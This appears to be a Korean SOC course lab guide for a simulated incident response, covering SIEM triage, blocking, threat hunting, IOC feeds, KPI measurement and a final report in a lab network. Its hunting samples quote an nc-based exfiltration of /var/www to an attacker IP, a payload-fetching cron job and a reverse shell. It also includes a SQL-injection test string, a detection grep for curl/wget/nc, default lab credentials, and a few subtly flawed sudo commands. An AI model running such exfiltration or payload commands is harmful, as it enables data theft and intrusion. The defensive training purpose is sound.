2. **Modules → Security events** 에서 전체 경보 개요 확인
3. 높은 심각도 경보부터 분석:
   ```
   rule.level >= 10
   ```
4. **Modules → MITRE ATT&CK** 에서 공격자의 ATT&CK 체인 시각화
5. Suricata 네트워크 경보 확인:
   ```
   rule.groups: suricata AND rule.level >= 6
   ```
6. 호스트 + 네트워크 경보를 시간순 통합하여 킬체인 타임라인 구성
7. **Export** 로 증거 CSV 저장

#### Step 2: OpenCTI — 위협 인텔리전스 조회 + 공격자 프로파일링

> **접속 URL:** `http://10.20.30.100:8080`

1. `http://10.20.30.100:8080` 접속 → 로그인
2. 경보에서 추출한 IOC(IP, 도메인, 해시)를 검색
3. **Threats → Threat actors** 에서 매칭되는 위협 그룹 확인
4. **Techniques → Attack patterns** 에서 공격자의 기법 셋 확인
5. **Knowledge** 그래프에서 캠페인 전체 관계도 시각화
6. 인시던트 최종 보고서에 OpenCTI 위협 인텔리전스 근거 포함

#### Step 3: 통합 대시보드 구성

1. Wazuh Dashboard → **Dashboards → Create new**
2. 다음 위젯 추가:
   - 시간별 경보 히스토그램 (Suricata + Wazuh 통합)
   - ATT&CK 기법별 경보 수 바 차트
   - 에이전트별 경보 심각도 히트맵
   - 공격 출발지 IP Top 10 테이블
3. 대시보드 저장 → 인시던트 보고서 부록으로 첨부

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### CCC Bastion Agent
> **역할:** CCC 자율 운영 에이전트 — 스킬/플레이북/경험 학습  
> **실행 위치:** `bastion (10.20.30.201)`  
> **접속/호출:** TUI `./dev.sh bastion`, API `http://10.20.30.200:8003` (Bastion /ask·/chat)

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `packages/bastion/agent.py` | 메인 에이전트 루프 |
| `packages/bastion/skills.py` | 스킬 정의 |
| `packages/bastion/playbooks/` | 정적 플레이북 YAML |
| `data/bastion/experience/` | 수집된 경험 (pass/fail) |

**핵심 설정·키**

- `LLM_BASE_URL / LLM_MODEL` — Ollama 연결
- `CCC_API_KEY` — ccc-api 인증
- `max_retry=2` — 실패 시 self-correction 재시도

**로그·확인 명령**

- ``docs/test-status.md`` — 현재 테스트 진척 요약
- ``bastion_test_progress.json`` — 스텝별 pass/fail 원시

**UI / CLI 요점**

- 대화형 TUI 프롬프트 — 자연어 지시 → 계획 → 실행 → 검증
- `/a2a/mission` (API) — 자율 미션 실행
- Experience→Playbook 승격 — 반복 성공 패턴 저장

> **해석 팁.** 실패 시 output을 분석해 **근본 원인 교정**이 설계의 핵심. 증상 회피/땜빵은 금지.

### Wazuh SIEM (4.11.x)
> **역할:** 에이전트 기반 로그·FIM·SCA 통합 분석 플랫폼  
> **실행 위치:** `siem (10.20.30.100)`  
> **접속/호출:** Dashboard `https://10.20.30.100` (admin/admin), Manager API `:55000`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/var/ossec/etc/ossec.conf` | Manager 메인 설정 (원격, 전송, syscheck 등) |
| `/var/ossec/etc/rules/local_rules.xml` | 커스텀 룰 (id ≥ 100000) |
| `/var/ossec/etc/decoders/local_decoder.xml` | 커스텀 디코더 |
| `/var/ossec/logs/alerts/alerts.json` | 실시간 JSON 알림 스트림 |
| `/var/ossec/logs/archives/archives.json` | 전체 이벤트 아카이브 |
| `/var/ossec/logs/ossec.log` | Manager 데몬 로그 |
| `/var/ossec/queue/fim/db/fim.db` | FIM 기준선 SQLite DB |

**핵심 설정·키**

- `<rule id='100100' level='10'>` — 커스텀 룰 — level 10↑은 고위험
- `<syscheck><directories>...` — FIM 감시 경로
- `<active-response>` — 자동 대응 (firewall-drop, restart)

**로그·확인 명령**

- `jq 'select(.rule.level>=10)' alerts.json` — 고위험 알림만
- `grep ERROR ossec.log` — Manager 오류 (룰 문법 오류 등)

**UI / CLI 요점**

- Dashboard → Security events — KQL 필터 `rule.level >= 10`
- Dashboard → Integrity monitoring — 변경된 파일 해시 비교
- `/var/ossec/bin/wazuh-logtest` — 룰 매칭 단계별 확인 (Phase 1→3)
- `/var/ossec/bin/wazuh-analysisd -t` — 룰·설정 문법 검증

> **해석 팁.** Phase 3에서 원하는 `rule.id`가 떠야 커스텀 룰 정상. `local_rules.xml` 수정 후 `systemctl restart wazuh-manager`, 문법 오류가 있으면 **분석 데몬 전체가 기동 실패**하므로 `-t`로 먼저 검증.

---

## 실제 사례 (WitFoo Precinct 6 — SOC 종합 보고)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *SOC 종합 보고* 학습 항목 매칭.

### SOC 종합 보고 의 dataset 흔적 — "monthly KPI report"

dataset 의 정상 운영에서 *monthly KPI report* 신호의 baseline 을 알아두면, *SOC 종합 보고* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — MTTD/MTTR/false positive 추세.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | monthly KPI report |
| 정량 baseline | MTTD/MTTR/false positive 추세 |
| 학습 매핑 | executive 보고서 |

**자세한 해석**: executive 보고서. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | monthly KPI report 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **SOC 종합 보고 = monthly KPI report 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — MTTD/MTTR/false positive 추세.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: SOC monthly report.


---

## 부록: 학습 OSS 도구 매트릭스 (Course14 SOC Advanced — Week 15 종합 실전·15주 통합·SOC-CMM 재평가)

> 이 부록은 lab `soc-adv-ai/week15.yaml` (10 step + multi_task) 의 모든 명령을
> 실제로 실행 가능한 형태로 정리한다. 15주 (week01~14) 학습한 SOC 심화 기술을
> 종합 적용하는 모의 인시던트 대응. 환경 점검 → 외부 공격 시나리오 → 내부 비정상 →
> 위협 헌팅 → IOC 통합 → KPI 측정 → SOC-CMM 재평가 → 최종 보고서.

### lab step → 도구·통합 매핑 표

| step | 학습 항목 | 사용 도구 (재사용 week) | 통합 영역 |
|------|----------|----------------------|---------|
| s1 | SOC 환경 점검 | Wazuh + Suricata + nft (w01·02) | Detection |
| s2 | 시나리오 1 외부 공격 | Suricata eve.json + Wazuh + jq (w07·11) | Detection |
| s3 | 시나리오 1 대응 | nft + Suricata + Wazuh AR (w10·11) | Containment |
| s4 | 시나리오 2 내부 비정상 | Suricata + 시스템 log + 교차 (w06·07) | Detection + Hunting |
| s5 | 위협 헌팅 (지속성) | osquery + Wazuh + auditd (w06) | Hunting |
| s6 | IOC 통합 관리 | Wazuh CDB + Suricata reputation (w05·12) | TI |
| s7 | Wazuh + Suricata 교차 | Dashboard + 다층 매트릭스 (w02·12) | Analysis |
| s8 | KPI 측정 (MTTD/MTTR) | Grafana + Wazuh API (w01·02·12·14) | Metrics |
| s9 | SOC-CMM 재평가 | radar chart + 5 도메인 (w01) | Maturity |
| s10 | 최종 종합 보고서 | markdown + 15주 통합 + 향후 plan | - |
| s99 | 통합 다단계 (s1→s2→s3→s4→s5) | Bastion plan: 환경→공격→대응→내부→헌팅 | All |

### 학생 환경 준비 (15주 도구 통합)

```bash
echo "=== Week 01: Wazuh / Suricata / nft ==="
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-control status'
ssh ccc@10.20.30.1 'suricata -V; sudo nft list ruleset | head'

echo "=== Week 02: Custom rules ==="
ssh ccc@10.20.30.100 'sudo grep -c "<rule" /var/ossec/etc/rules/local_rules.xml'

echo "=== Week 03: SIGMA ==="
sigma --version; ls ~/sigma-rules/rules/ 2>/dev/null

echo "=== Week 04: YARA ==="
yara --version; ls ~/yara-rules/ 2>/dev/null

echo "=== Week 05: TI ==="
curl -s http://10.20.30.100:8080/health 2>/dev/null

echo "=== Week 06: 헌팅 ==="
which jupyter; ls /tmp/atomic 2>/dev/null

echo "=== Week 07: 네트워크 ==="
which tcpdump tshark zeek nfdump

echo "=== Week 08: 메모리 ==="
ls /tmp/lime/src/lime-*.ko 2>/dev/null

echo "=== Week 09: 악성코드 ==="
which die; ls /tmp/cuckoo 2>/dev/null

echo "=== Week 10: SOAR ==="
curl -s http://192.168.0.103:8003/health
docker ps | grep -E "(thehive|cortex|misp)"

echo "=== Week 11: IR ==="
ls /var/log/forensics/ 2>/dev/null

echo "=== Week 12: 로그 엔지니어링 ==="
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-stats -m'

echo "=== Week 13: Purple Team ==="
ls /tmp/atomic/atomics/ 2>/dev/null

echo "=== Week 14: AI ==="
which mlflow; ls /var/ml/ 2>/dev/null
```

### 핵심 도구별 상세 사용법

#### 도구 1: SOC 환경 점검 (Step 1)

```bash
TOKEN=$(curl -sk -u wazuh:wazuh -X POST "https://10.20.30.100:55000/security/user/authenticate?raw=true")

# Wazuh
curl -sk -H "Authorization: Bearer $TOKEN" "https://10.20.30.100:55000/cluster/healthcheck" | jq
curl -sk -H "Authorization: Bearer $TOKEN" "https://10.20.30.100:55000/agents/summary/status" | jq
curl -sk -H "Authorization: Bearer $TOKEN" "https://10.20.30.100:55000/rules?filename=local_rules.xml&limit=1" | jq '.data.total_affected_items'

# Suricata
ssh ccc@10.20.30.1 'suricata -V; sudo suricatasc -c uptime; sudo suricatasc -c rules-stats'

# nftables
ssh ccc@10.20.30.1 'sudo nft list ruleset'
ssh ccc@10.20.30.1 'sudo nft list counter inet filter input_dropped 2>/dev/null'

# OpenSearch
curl -sk -u admin:admin "https://10.20.30.100:9200/_cluster/health" | jq

# 종합
cat > /tmp/soc-health-2026Q2.md << 'MD'
# SOC Health Check — 2026-05-02

## Wazuh
- Manager: ✓ healthy
- Active agents: 4/4
- Total rules: 4847 + 23 custom
- Recent alerts (1h): 145

## Suricata
- Version: 6.0.x
- Uptime: 5d 3h
- Active rules: 25,320

## nftables
- input policy: drop ✓
- input_dropped: 12,483 packets

## OpenSearch
- Cluster: green
- Indices: 47
MD
```

#### 도구 2: 시나리오 1 — 외부 공격 (Step 2)

```bash
ssh ccc@10.20.30.1 'sudo jq -c "select(.event_type==\"alert\" and .alert.category | test(\"web\"; \"i\"))" /var/log/suricata/eve.json | tail -20'
ssh ccc@10.20.30.1 'sudo jq -r "select(.event_type==\"alert\") | .src_ip" /var/log/suricata/eve.json | sort | uniq -c | sort -rn | head -10'

curl -sk -u admin:admin "https://10.20.30.100:9200/wazuh-alerts-*/_search" -H "Content-Type: application/json" -d '{
  "size": 50,
  "query": {"bool":{"must":[
    {"range":{"@timestamp":{"gte":"now-1h"}}},
    {"prefix":{"rule.id":"1002"}}]}},
  "sort": [{"@timestamp":"desc"}]
}' | jq '.hits.hits[]._source | {ts:.timestamp, src:.data.srcip, uri:.data.url, rule:.rule.description}'

# TheHive case 자동
THEHIVE=http://10.20.30.100:9000
curl -X POST "$THEHIVE/api/v1/case" \
  -H "Authorization: Bearer $API_KEY" \
  -d '{"title":"[P1] External attack — web (10.20.30.80)",
       "description":"Suricata + Wazuh 다수 SQLi/XSS from 192.168.1.50",
       "severity":4, "tlp":2, "tags":["sqli","web","P1","external"]}'

# 결과
cat > /tmp/scenario1-analysis.md << 'MD'
## Scenario 1 — External Attack on Web

### 공격자 정보
- IP: 192.168.1.50 / GeoIP: 한국 / VT: malicious 5/89

### 공격 유형
- SQLi: 47건, XSS: 12건, Directory traversal: 8건

### 영향
- Apache 4xx: 53건 / 200: 14건 (★ 14건 성공 의심)
- DB query log: SELECT FROM users 6건

### 결과: P1 Critical → TheHive case + T2 escalate
MD
```

#### 도구 3: 시나리오 1 대응 (Step 3)

```bash
# 1. nft 차단
ssh ccc@10.20.30.1 'sudo nft add rule inet filter input ip saddr 192.168.1.50 drop counter comment "scenario1-block"'

# 2. Suricata 추가 룰
ssh ccc@10.20.30.1 'sudo tee -a /etc/suricata/rules/local.rules' << 'RULES'
alert ip 192.168.1.50 any -> any any (msg:"BLOCKED IP — 192.168.1.50 still trying"; \
    sid:9999001; rev:1; classtype:trojan-activity;)
RULES
ssh ccc@10.20.30.1 'sudo suricatasc -c reload-rules'

# 3. Wazuh 강화
ssh ccc@10.20.30.100 'sudo tee -a /var/ossec/etc/rules/local_rules.xml' << 'XML'
<rule id="100999" level="14">
  <if_sid>100200</if_sid>
  <srcip>192.168.1.50</srcip>
  <description>Scenario 1 — Confirmed attacker still active</description>
  <mitre><id>T1190</id></mitre>
  <options>alert_by_email</options>
</rule>
XML
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-control restart'

# 4. WAF (week11)
ssh ccc@10.20.30.80 'sudo a2enmod security2'
ssh ccc@10.20.30.80 'sudo sed -i "s/SecRuleEngine DetectionOnly/SecRuleEngine On/" /etc/modsecurity/modsecurity.conf'
ssh ccc@10.20.30.80 'sudo systemctl reload apache2'

# 5. 검증
ssh ccc@10.20.30.1 'sudo nft list chain inet filter input | grep "scenario1-block"'
curl -s "http://10.20.30.80/search?q=' OR 1=1--" -o /dev/null -w "%{http_code}\n"
# 403 (WAF) 또는 connection refused

# 6. SOAR (week10)
curl -X POST http://192.168.0.103:8003/playbooks/scenario1-comprehensive/run \
  -d '{"vars": {"SRCIP": "192.168.1.50"}}'

# 7. case 마감
curl -X PATCH "$THEHIVE/api/v1/case/$CASE_ID" \
  -d '{"status":"Resolved","resolutionStatus":"TruePositive"}'
```

#### 도구 4: 시나리오 2 — 내부 비정상 Outbound (Step 4)

```bash
# Suricata flow
ssh ccc@10.20.30.1 'sudo jq -c "select(.event_type==\"flow\" and .src_ip | startswith(\"10.20.30.\") and (.dest_ip | startswith(\"10.20.30.\") | not))" /var/log/suricata/eve.json | tail -20'

# Zeek 대용량
ssh ccc@10.20.30.1 'sudo zeek-cut id.orig_h id.resp_h id.resp_p orig_bytes resp_bytes < /var/log/zeek/conn.log | awk "$1 ~ /^10\.20\.30\./ && $2 !~ /^10\.20\.30\./ && ($4 > 10485760 || $5 > 10485760)" | head'

# 시스템 log 교차
ssh ccc@10.20.30.80 'sudo ss -tunap | grep -v 127.0.0.1 | grep -v 10.20.30 | head'
ssh ccc@10.20.30.80 'sudo grep -E "(curl|wget|nc -e|tar.*nc)" /home/*/.bash_history /root/.bash_history 2>/dev/null | tail'

# 메모리 (week08)
ssh ccc@10.20.30.80 'sudo cd /tmp/lime/src && sudo insmod lime-$(uname -r).ko "path=/tmp/mem.lime format=lime"'
scp ccc@10.20.30.80:/tmp/mem.lime /var/log/forensics/scenario2-mem.lime
vol3 -f /var/log/forensics/scenario2-mem.lime linux.netstat | head

# 발견
cat > /tmp/scenario2-hunt.md << 'MD'
## Scenario 2 — Internal Outbound

### 의심 통신
- web → 192.168.1.50:4444 (Metasploit default)
- 50MB outbound (1h)

### Process 식별
- ss: PID 5678 bash (★ 비정상)
- bash history: tar -czf - /var/www | nc 192.168.1.50 4444
- vol3 linux.netstat: bash → 192.168.1.50:4444 ESTABLISHED

### 결론: Reverse shell + 데이터 유출 (T1041)
### 다음:
1. 호스트 격리 (nft drop in/out)
2. 메모리 + 디스크 이미징 (week07·08)
3. IOC 추출 → Wazuh CDB
4. 다른 호스트 IOC scan
MD
```

#### 도구 5: 위협 헌팅 (Step 5)

```bash
# Persistence (week06 도구 8)
for host in 10.20.30.{1,80,100}; do
    echo "=== $host ==="
    ssh ccc@$host '
      sudo crontab -l 2>/dev/null
      sudo cat /etc/crontab
      sudo find /etc/systemd/system -name "*.service" -newer /tmp/baseline -mtime -7 2>/dev/null
      sudo find /home -name "authorized_keys" -newer /tmp/baseline 2>/dev/null
      sudo find / -perm -4000 -newer /tmp/baseline -ls 2>/dev/null | head
      sudo lsmod | head
    '
done

# osquery
sudo osqueryi << 'SQL'
SELECT * FROM crontab WHERE (julianday('now') - julianday(modtime/86400 + 2440587.5)) < 7;
SELECT path, mode, mtime FROM file
  WHERE directory='/tmp' AND (mode LIKE '%5%%' OR mode LIKE '%7%%')
    AND mtime > strftime('%s', 'now', '-7 days');
SELECT process_envs.pid, process_envs.value FROM process_envs WHERE key='LD_PRELOAD';
SQL

# Wazuh hunting
curl -sk -u admin:admin "https://10.20.30.100:9200/wazuh-alerts-*/_search" -H 'Content-Type: application/json' -d '{
  "size": 100,
  "query": {"bool":{"must":[
    {"range":{"@timestamp":{"gte":"now-7d"}}},
    {"terms":{"rule.id":["5106","5402","5712","5715","550","100850","100851"]}}]}}
}' | jq '.hits.hits[]._source | {ts:.timestamp, rule:.rule.description, src:.data.srcip}'

cat > /tmp/hunting-results.md << 'MD'
## Hunting Results

### 발견
- web (/etc/cron.d/backup): 신규 — 5분마다 curl 192.168.1.50/payload
- web (/home/ccc/.ssh/authorized_keys): attacker@kali ★
- siem (/etc/systemd/system/persist.service): 신규 — bash reverse shell

### Scope: web, siem (lateral 의심)

### 다음
1. persistence 모두 제거
2. 자격증명 회전
3. 다른 호스트 동일 헌팅
MD
```

#### 도구 6: IOC 통합 (Step 6)

```bash
cat > /tmp/today-iocs.txt << 'IOC'
192.168.1.50:c2
192.168.1.51:c2
evil-c2.example:phishing
fake-bank.com:phishing
0123456789abcdef0123456789abcdef:malware_hash
IOC

# Wazuh CDB
ssh ccc@10.20.30.100 'sudo cat > /var/ossec/etc/lists/today-iocs' < /tmp/today-iocs.txt
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-make_cdb /var/ossec/etc/lists/today-iocs'
ssh ccc@10.20.30.100 'sudo grep "today-iocs" /var/ossec/etc/ossec.conf || sudo sed -i "/<\/ruleset>/i \  <list>etc/lists/today-iocs<\/list>" /var/ossec/etc/ossec.conf'

ssh ccc@10.20.30.100 'sudo tee -a /var/ossec/etc/rules/local_rules.xml' << 'XML'
<rule id="999100" level="14">
  <list field="srcip" lookup="address_match_key">etc/lists/today-iocs</list>
  <description>Today IOC match — known attacker</description>
  <mitre><id>T1071</id></mitre>
</rule>
XML
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-control restart'

# Suricata reputation
ssh ccc@10.20.30.1 'sudo cat > /etc/suricata/iprep/today.list' << 'REP'
192.168.1.50,1,90
192.168.1.51,1,85
REP
ssh ccc@10.20.30.1 'sudo cat > /etc/suricata/rules/today-iocs.rules' << 'RULES'
alert ip $HOME_NET any -> $EXTERNAL_NET any (msg:"Today IOC C2"; iprep:dst,c2,>,80; sid:9999100; rev:1;)
alert dns $HOME_NET any -> any any (msg:"Today IOC phishing"; dns_query; content:"evil-c2.example"; nocase; sid:9999101; rev:1;)
RULES
ssh ccc@10.20.30.1 'sudo suricatasc -c reload-rules'

# OpenCTI export (week05)
python3 << 'PY'
from pycti import OpenCTIApiClient
import stix2

client = OpenCTIApiClient(url="http://10.20.30.100:8080", token="...")

indicators = []
for ip in ["192.168.1.50","192.168.1.51"]:
    indicators.append(stix2.Indicator(
        pattern_type="stix",
        pattern=f"[ipv4-addr:value = '{ip}']",
        indicator_types=["malicious-activity"],
        valid_from="2026-05-02T00:00:00Z",
        confidence=85,
        labels=["c2","scenario1"]
    ))

bundle = stix2.Bundle(objects=indicators)
client.stix2.import_bundle(bundle.serialize(), update=True)
print(f"Pushed {len(indicators)} IOCs")
PY
```

#### 도구 7: Wazuh + Suricata 교차 분석 (Step 7)

```bash
# Wazuh Dashboard 의 Suricata 알림
curl -sk -u admin:admin "https://10.20.30.100:9200/wazuh-alerts-*/_search" -H "Content-Type: application/json" -d '{
  "size": 50,
  "query": {"bool":{"must":[
    {"range":{"@timestamp":{"gte":"now-1h"}}},
    {"prefix":{"location":"/var/log/suricata"}}]}}
}' | jq '.hits.hits[]._source | {ts:.timestamp, src:.data.src_ip, sig:.data.alert.signature}'

# 5-tuple 매칭
SRC_IP="192.168.1.50"
echo "=== Wazuh ==="
curl -sk -u admin:admin "https://10.20.30.100:9200/wazuh-alerts-*/_search" -H 'Content-Type: application/json' -d "{
  \"size\":20, \"query\":{\"bool\":{\"must\":[
    {\"range\":{\"@timestamp\":{\"gte\":\"now-1h\"}}},
    {\"term\":{\"data.srcip\":\"$SRC_IP\"}}]}}
}" | jq '.hits.hits[]._source | {ts:.timestamp, rule:.rule.description}'

echo "=== Suricata via Wazuh ==="
curl -sk -u admin:admin "https://10.20.30.100:9200/wazuh-alerts-*/_search" -H 'Content-Type: application/json' -d "{
  \"size\":20, \"query\":{\"bool\":{\"must\":[
    {\"range\":{\"@timestamp\":{\"gte\":\"now-1h\"}}},
    {\"term\":{\"data.src_ip\":\"$SRC_IP\"}}]}}
}" | jq '.hits.hits[]._source | {ts:.timestamp, sig:.data.alert.signature}'

# Combo 룰 (week02 의 100600)
ssh ccc@10.20.30.100 'sudo grep -A 8 "100600" /var/ossec/etc/rules/local_rules.xml'
```

#### 도구 8: KPI 측정 (Step 8)

```bash
# MTTD
EVENT_TIME="2026-05-02T14:00:01Z"
ALERT_TIME=$(curl -sk -u admin:admin "https://10.20.30.100:9200/wazuh-alerts-*/_search" -H 'Content-Type: application/json' -d "{
  \"size\":1, \"query\":{\"bool\":{\"must\":[
    {\"term\":{\"data.srcip\":\"192.168.1.50\"}}]}}, \"sort\":[{\"@timestamp\":\"asc\"}]
}" | jq -r '.hits.hits[0]._source["@timestamp"]')

python3 -c "
from datetime import datetime
e = datetime.fromisoformat('$EVENT_TIME'.replace('Z','+00:00'))
a = datetime.fromisoformat('$ALERT_TIME'.replace('Z','+00:00'))
print(f'MTTD: {(a-e).total_seconds():.1f}s')
"

# MTTR
CONTAINMENT_TIME="2026-05-02T14:08:00Z"
python3 -c "
from datetime import datetime
a = datetime.fromisoformat('$ALERT_TIME'.replace('Z','+00:00'))
c = datetime.fromisoformat('$CONTAINMENT_TIME'.replace('Z','+00:00'))
print(f'MTTR: {(c-a).total_seconds()/60:.1f}분')
"

# 처리 알림 (24h)
curl -sk -u admin:admin "https://10.20.30.100:9200/wazuh-alerts-*/_count?q=@timestamp:%5Bnow-24h%20TO%20now%5D" | jq .count

# 인시던트
curl -X GET "$THEHIVE/api/v1/case" -d '{"query":{"_field":"createdAt","_gte":"2026-05-02T00:00:00Z"}}' | jq '.length'
```

| KPI | 측정값 | 목표 | 결과 |
|-----|--------|------|------|
| MTTD | 5s | < 60s | ✓ |
| MTTR | 8분 | < 30분 | ✓ |
| 처리 알림 (24h) | 1,847 | - | - |
| 인시던트 (24h) | 12 (P1:1, P2:3, P3:8) | - | - |
| 자동 차단 | 24 | - | - |
| FP rate | 4% | < 5% | ✓ |
| ATT&CK Coverage | 56% | > 30% | ✓ |
| Wazuh EPS | 5,234 avg | < 10K | ✓ |
| Latency p95 | 2.3s | < 5s | ✓ |

#### 도구 9: SOC-CMM 재평가 (Step 9)

```python
import matplotlib.pyplot as plt
import numpy as np

before = {"Business":2.5,"People":2.8,"Process":2.0,"Technology":2.3,"Services":2.7}
after = {"Business":3.2,"People":3.5,"Process":3.4,"Technology":3.6,"Services":3.4}

before_avg = sum(before.values()) / len(before)
after_avg = sum(after.values()) / len(after)

print("=== SOC-CMM Maturity Re-assessment ===")
print(f"{'Domain':<15} {'Before':>8} {'After':>8} {'Δ':>6}")
print("-" * 45)
for d in before:
    print(f"{d:<15} {before[d]:>8.1f} {after[d]:>8.1f} {after[d]-before[d]:>+6.1f}")
print(f"{'Overall':<15} {before_avg:>8.2f} {after_avg:>8.2f} {after_avg-before_avg:>+6.2f}")

# Radar chart
domains = list(before.keys())
b_scores = list(before.values())
a_scores = list(after.values())
target = [4] * len(domains)

angles = np.linspace(0, 2*np.pi, len(domains), endpoint=False).tolist()
b_scores += b_scores[:1]; a_scores += a_scores[:1]; target += target[:1]; angles += angles[:1]

fig, ax = plt.subplots(figsize=(8,8), subplot_kw=dict(polar=True))
ax.plot(angles, b_scores, 'o-', linewidth=2, label='Week 1', color='#888')
ax.plot(angles, a_scores, 'o-', linewidth=2, label='Week 15', color='#3b82f6')
ax.fill(angles, a_scores, alpha=0.25, color='#3b82f6')
ax.plot(angles, target, 'o-', linewidth=2, label='Target L4', color='#ef4444', linestyle='--')

ax.set_xticks(angles[:-1]); ax.set_xticklabels(domains)
ax.set_ylim(0,5); ax.set_yticks([1,2,3,4,5])
ax.set_yticklabels(['L1','L2','L3','L4','L5'])
ax.legend(loc='upper right', bbox_to_anchor=(1.3, 1.1))
plt.title('SOC-CMM 변화 — Week 1 vs Week 15', pad=20)
plt.savefig('/tmp/socmm-comparison.png', dpi=150, bbox_inches='tight')
```

```
=== 결과 ===
Week 1: 2.46 (L1-L2 사이)
Week 15: 3.42 (L3 가까움) (+0.96)

가장 큰 변화:
- Process: 2.0 → 3.4 (+1.4) ★ IR / 헌팅 / Purple Team 절차
- Technology: 2.3 → 3.6 (+1.3) ★ SIGMA / YARA / LLM / MLOps

여전한 갭 (Target L4):
- Business: 3.2 (Charter / Funding 더 정립)
- Services: 3.4 (TI + Threat Hunting 정규화)
```

#### 도구 10: 최종 종합 보고서 (Step 10)

```bash
cat > /tmp/soc_final_report.txt << 'EOF'
================================================================
SOC Final Report — Course14 SOC Advanced 15주 통합
================================================================
작성: 2026-05-02

## 1. Executive Summary
- 15주 SOC 심화 수료
- SOC-CMM: 2.46 → 3.42 (+0.96)
- 도구: 28+ OSS 풀스택
- 룰: Wazuh 23 + SIGMA 47 + YARA 87 + Suricata 89 = 246 신규
- ATT&CK Coverage: 21% → 56% (+35pt)

## 2. 학습 영역별 성과
- Week 1: SOC-CMM 5 도메인 baseline
- Week 2: Wazuh 23 사용자 룰 + correlation
- Week 3: SIGMA 47 룰 + 4 backend 변환
- Week 4: YARA 87 룰 + Wazuh AR 통합
- Week 5: TI (STIX 2.1 + MISP + OpenCTI) + 28K IOC
- Week 6: 6 헌팅 노트북 + HMM L1→L2
- Week 7: tcpdump + Zeek + Plaso + CoC
- Week 8: LiME + Volatility + rootkit 탐지
- Week 9: Cuckoo + DIE + IOC 자동화
- Week 10: 10 SOAR playbook + ROI 240%
- Week 11: NIST SP 800-61 r2 + Tabletop + AAR
- Week 12: decoder + 정규화 + ILM + ATT&CK 37%
- Week 13: Purple Team + Coverage 37%→56%
- Week 14: AI SOC L0→L1 (12개월 L3 목표)
- Week 15: 종합 시뮬

## 3. SOC-CMM 변화 (2.46 → 3.42)
| Domain | Before | After | Δ |
|--------|--------|-------|---|
| Business | 2.5 | 3.2 | +0.7 |
| People | 2.8 | 3.5 | +0.7 |
| Process | 2.0 | 3.4 | +1.4 ★ |
| Technology | 2.3 | 3.6 | +1.3 ★ |
| Services | 2.7 | 3.4 | +0.7 |

## 4. KPI (시뮬)
- MTTD: 5s ✓ / MTTR: 8분 ✓ / FP: 4% ✓
- Coverage: 56% / EPS: 5K / Latency p95: 2.3s

## 5. 향후 로드맵 (12개월)
- Q3: Cloud SOC + IoT + Wazuh cluster
- Q4: AI L2 + HMM L3 + Bug Bounty
- 2027 Q1: AI L3 (MLOps) + 24x7 + Compliance 자동화
- 2027 Q2: AI L4 (자율) + 분기 외부 pentest

## 6. 도구 카탈로그 (28+)
[15주 통합 도구 매트릭스]

## 7. 자기 평가
### 강점
- 다층 탐지 (rule + AI + UEBA)
- IR 정형화 (NIST SP 800-61)
- TI 통합 자동화
- Detection-as-Code

### 개선 필요
- AI 모델 운영 (pilot 수준)
- Cloud SOC 부족
- 24x7 운영 부족

### 다음 과정
- course13 attack-advanced (Red Team)
- course15 ai-safety-advanced (AI 보안)
- course17 iot-security
- 외부 OSCP

## 8. Lessons Learned
1. OSS 만으로 enterprise SOC 가능
2. 자동화 ROI 240% (10 playbook)
3. TI + Detection 시너지
4. Purple Team 가장 효과적 (분기 +5%)
5. AI 도입 단계적 (18개월)
6. 사람이 핵심

## 9. 부록
- A. 작성된 모든 룰 (전문)
- B. SOC-CMM radar chart
- C. ATT&CK Coverage Navigator JSON
- D. KPI dashboard
- E. Jupyter 노트북 (6개)
- F. SOAR playbook (10개)
- G. Purple Team AAR
EOF

pandoc /tmp/soc_final_report.txt -o /tmp/soc_final_report.pdf \
  --pdf-engine=xelatex --toc -V mainfont="Noto Sans CJK KR"

echo "최종 보고서: /tmp/soc_final_report.pdf"
```

### 점검 / 시뮬 / 측정 흐름 (10 step + multi_task)

#### Phase A — 환경 + 시나리오 (s1·s2·s3)

```bash
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-control status'
ssh ccc@10.20.30.1 'sudo jq -r "select(.event_type==\"alert\") | .src_ip" /var/log/suricata/eve.json | sort | uniq -c | sort -rn | head'
ssh ccc@10.20.30.1 'sudo nft add rule inet filter input ip saddr 192.168.1.50 drop counter'
```

#### Phase B — 헌팅 + IOC + 교차 (s4·s5·s6·s7)

```bash
ssh ccc@10.20.30.1 'sudo zeek-cut id.orig_h id.resp_h orig_bytes < /var/log/zeek/conn.log | awk "$3 > 10485760"'
sudo osqueryi << 'SQL'
SELECT * FROM crontab; SELECT path, mtime FROM file WHERE path LIKE '/home/%/.bashrc';
SQL
ssh ccc@10.20.30.100 'sudo /var/ossec/bin/wazuh-make_cdb /var/ossec/etc/lists/today-iocs'
```

#### Phase C — KPI + 재평가 + 보고 (s8·s9·s10)

```bash
python3 /tmp/measure-kpi.py
python3 /tmp/socmm-reassess.py
pandoc /tmp/soc_final_report.txt -o /tmp/soc_final_report.pdf \
